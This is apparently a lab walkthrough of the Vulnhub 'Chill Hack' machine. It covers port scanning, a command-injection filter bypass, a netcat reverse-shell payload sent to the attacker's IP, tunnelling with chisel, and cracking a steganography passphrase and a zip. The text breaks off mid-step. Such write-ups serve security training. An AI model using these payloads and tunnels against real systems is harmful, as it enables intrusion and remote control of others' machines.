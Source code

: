![image](https://github.com/user-attachments/assets/87a7f2c8-cb4b-43fd-b2fd-e1ddf1e2b89f)* * *
Title: Chill Hack
Platform: Vulnhub

* * *

### Wakthrough:

- Spot the ip of the victim machine with `netdiscover -r <eth0 ip>`, to get our host machine's ip, use `ip a | grep "eth0"`

  ![image](https://github.com/user-attachments/assets/be2e49a2-5292-4bc1-b965-e365e86cd7b8)

- Our target ip 

  ![image](https://github.com/user-attachments/assets/b9e27c47-b1aa-442d-8410-e62af682e78a)

- Rustscan's result for open ports,use `rustscan -a [victim's ip] -- -sC -sV`,flag `-sV` is used for port service detection
      
        ❯ rustscan -a 192.168.184.128 -- -sC -sV
      .----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
      | {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
      | .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
      `-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
      The Modern Day Port Scanner.
      ________________________________________
      : https://discord.gg/GFrQsGy           :
      : https://github.com/RustScan/RustScan :
       --------------------------------------
      Real hackers hack time ⌛
      
      [~] The config file is expected to be at "/home/sensei/.rustscan.toml"
      [!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
      [!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
      Open 192.168.184.128:21
      Open 192.168.184.128:80
      Open 192.168.184.128:22
      [~] Starting Script(s)
      [>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")
      
      [~] Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-26 06:32 EDT
      NSE: Loaded 156 scripts for scanning.
      NSE: Script Pre-scanning.
      NSE: Starting runlevel 1 (of 3) scan.
      Initiating NSE at 06:32
      Completed NSE at 06:32, 0.02s elapsed
      NSE: Starting runlevel 2 (of 3) scan.
      Initiating NSE at 06:32
      Completed NSE at 06:32, 0.00s elapsed
      NSE: Starting runlevel 3 (of 3) scan.
      Initiating NSE at 06:32
      Completed NSE at 06:32, 0.01s elapsed
      Initiating Ping Scan at 06:32
      Scanning 192.168.184.128 [2 ports]
      Completed Ping Scan at 06:32, 0.01s elapsed (1 total hosts)
      Initiating Parallel DNS resolution of 1 host. at 06:32
      Completed Parallel DNS resolution of 1 host. at 06:32, 0.39s elapsed
      DNS resolution of 1 IPs took 0.39s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
      Initiating Connect Scan at 06:32
      Scanning 192.168.184.128 [3 ports]
      Discovered open port 22/tcp on 192.168.184.128
      Discovered open port 80/tcp on 192.168.184.128
      Discovered open port 21/tcp on 192.168.184.128
      Completed Connect Scan at 06:32, 0.00s elapsed (3 total ports)
      Initiating Service scan at 06:32
      Scanning 3 services on 192.168.184.128
      Completed Service scan at 06:32, 6.26s elapsed (3 services on 1 host)
      NSE: Script scanning 192.168.184.128.
      NSE: Starting runlevel 1 (of 3) scan.
      Initiating NSE at 06:32
      NSE: [ftp-bounce 192.168.184.128:21] PORT response: 500 Illegal PORT command.
      Completed NSE at 06:32, 6.06s elapsed
      NSE: Starting runlevel 2 (of 3) scan.
      Initiating NSE at 06:32
      Completed NSE at 06:32, 0.18s elapsed
      NSE: Starting runlevel 3 (of 3) scan.
      Initiating NSE at 06:32
      Completed NSE at 06:32, 0.01s elapsed
      Nmap scan report for 192.168.184.128
      Host is up, received syn-ack (0.0055s latency).
      Scanned at 2024-07-26 06:32:25 EDT for 13s
      
      PORT   STATE SERVICE REASON  VERSION
      21/tcp open  ftp     syn-ack vsftpd 3.0.3
      | ftp-anon: Anonymous FTP login allowed (FTP code 230)
      |_-rw-r--r--    1 1001     1001           90 Oct 03  2020 note.txt
      | ftp-syst: 
      |   STAT: 
      | FTP server status:
      |      Connected to ::ffff:192.168.184.129
      |      Logged in as ftp
      |      TYPE: ASCII
      |      No session bandwidth limit
      |      Session timeout in seconds is 300
      |      Control connection is plain text
      |      Data connections will be plain text
      |      At session startup, client count was 2
      |      vsFTPd 3.0.3 - secure, fast, stable
      |_End of status
      22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
      | ssh-hostkey: 
      |   2048 09:f9:5d:b9:18:d0:b2:3a:82:2d:6e:76:8c:c2:01:44 (RSA)
      | ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDcxgJ3GDCJNTr2pG/lKpGexQ+zhCKUcUL0hjhsy6TLZsUE89P0ZmOoQrLQojvJD0RpfkUkDfd7ut4//Q0Gqzhbiak3AIOqEHVBIVcoINja1TIVq2v3mB6K2f+sZZXgYcpSQriwN+mKgIfrKYyoG7iLWZs92jsUEZVj7sHteOq9UNnyRN4+4FvDhI/8QoOQ19IMszrbpxQV3GQK44xyb9Fhf/Enzz6cSC4D9DHx+/Y1Ky+AFf0A9EIHk+FhU0nuxBdA3ceSTyu8ohV/ltE2SalQXROO70LMoCd5CQDx4o1JGYzny2SHWdKsOUUAkxkEIeEVXqa2pehJwqs0IEuC04sv
      |   256 1b:cf:3a:49:8b:1b:20:b0:2c:6a:a5:51:a8:8f:1e:62 (ECDSA)
      | ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFetPKgbta+pfgqdGTnzyD76mw/9vbSq3DqgpxPVGYlTKc5MI9PmPtkZ8SmvNvtoOp0uzqsfe71S47TXIIiQNxQ=
      |   256 30:05:cc:52:c6:6f:65:04:86:0f:72:41:c8:a4:39:cf (ED25519)
      |_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKHq62Lw0h1xzNV41zO3BsfpOiBI3uy0XHtt6TOMHBhZ
      80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
      |_http-server-header: Apache/2.4.29 (Ubuntu)
      |_http-title: Game Info
      | http-methods: 
      |_  Supported Methods: GET POST OPTIONS HEAD
      |_http-favicon: Unknown favicon MD5: 7EEEA719D1DF55D478C68D9886707F17
      Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

- Ffuf's result for directory fuzzing after using wordlist `big.txt`

  ![image](https://github.com/user-attachments/assets/235c0f84-b0e0-47c6-93d0-a5b8b43de550)

- The webserver contains a page `secret`,I tested the site for shell command injection, i noticed it filters linux shell commands.I tested with `ls`
  and got this alert page

 
 ![image](https://github.com/user-attachments/assets/b9835310-bc20-419c-bca1-d90d3520a537)

- I bypassed the filters by enclosing the linux statement with `$()` e.g `$(ls)`. To test it, I set up a listner with nc and got a payload from
`revshells.com` to activate a reverse shell. Now we have shell access to `www-data`

  Payload: `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc [Attacker'sip] [nc listener's port] >/tmp/f`

  ![image](https://github.com/user-attachments/assets/188f3c98-6c02-43dd-9a00-22fdc49bb057)

- Stabilize the shell with the instructions below
  `python3 -c "import pty;pty.spawn('/bin/bash')"
   ctrl + z {to make it a backround process}
   stty raw -echo;fg
   export TERM=XTERM`
  
  ![image](https://github.com/user-attachments/assets/9f757f47-2f93-46bf-a798-252397d3ec67)

- After runnng `netstat -antp` to check services running on the victim machine. I noticed a page was running on localhost:9001 which is
a customer page.

  ![image](https://github.com/user-attachments/assets/55c1d7c2-ca3c-44cb-b2fc-dead8e43a4b4)

- We can make it available on our machine by port forwarding it with chisel, but our first task  is to send the chisel binary from
our attacker machine.Set up a python http server with this command `python -m http.server 8000` in the director chisel is located.

 ![image](https://github.com/user-attachments/assets/cbd6da90-440f-49eb-9869-aec6ec00d198)

- Receive with `wget http://[host'sip]:[http server'sport]/[binary's name]`, it should be noted that we can only write files to directories like `/dev/shm` and `/tmp` in the victim's machine. I'll be writing to /tmp.The next step is to grant the binary with
`chmod +x {binary}` to grant execute permissions.

  ![image](https://github.com/user-attachments/assets/0871e405-846a-43e1-8373-d5837863995a)--

-  Set up a server with `chisel server -p [port] --reverse` on your target machine

  ![image](https://github.com/user-attachments/assets/1d197c0f-d4de-40b5-9ffe-368cb5663647)

- We have to set up a client on the victim's machine with `./chisel client [attacker'sip]:[chisel's server port] R:[port that you want to tunnel through]:[localhost]:[port running the service internally]`.After executing, the client should communicate with our server.

   `./chisel client 192.168.184.129:8002 R:8003:127.0.0.1:9001`
   
  ![image](https://github.com/user-attachments/assets/3eb0eb80-1e18-48f0-83dd-1a18405191cd)

- Fuzzing for web directories and files with ffuf reveals an images directories.

  ![image](https://github.com/user-attachments/assets/a41b2238-849d-493e-98d1-566209ad6072)

- The `images/` directories contains a gif and jpg images.I decided to perform steganography on the jpg file to check if the file is within the jpg file.

  ![image](https://github.com/user-attachments/assets/a4603504-669c-4586-9d49-5a56f7dc6b2d)

- Download the file to your machine with wget and use `stegseek` to crack the jpg file passphrase

  ![image](https://github.com/user-attachments/assets/75d02ae7-b8a4-43f0-962f-913fad045fd6)

- The jpg file was not password protected and it contains a backup.zip file but the zip file is password protected

  ![Uploading image.png…]()

- I cracked the zip with john,I recovered 


  


  

  


  
 




  

